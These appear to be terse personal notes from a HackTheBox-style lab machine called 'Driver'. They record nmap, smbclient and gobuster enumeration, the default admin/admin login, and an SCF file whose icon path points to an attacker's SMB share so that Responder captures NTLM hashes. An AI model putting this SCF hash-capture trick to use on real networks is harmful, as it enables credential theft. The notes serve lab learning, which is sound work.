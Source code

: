 https://www.youtube.com/watch?v=N2ahkarb-zI&list=PLidcsTyj9JXL4Jv6u9qi8TcUgsNoKKHNn

## nmap scan

sudo nmap -sC -sV -oA nmap/driver 10.10.11.106

port 80, 135

## smbclient

smbclient -L //10.10.11.106 - default

smbclient -N -L //10.10.11.106 - no password

smbclient -U '' -L //10.10.11.106

smbclient -U '.' -L //10.10.11.106

cme smb 10.10.11.106

# looking at website

admin 
admin

notice - url ends at .php

gobuster dir -u http://10.10.11.10 -U admin -P admin -x php -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster.out

# creaitng an scf file

vi attack.scf
```
[Shell]
Command=2
IconFile=10.10.6.12\share\anything_here
[Taskbar]
Command=ToggleDesktop
```

need to use responder.

6.37




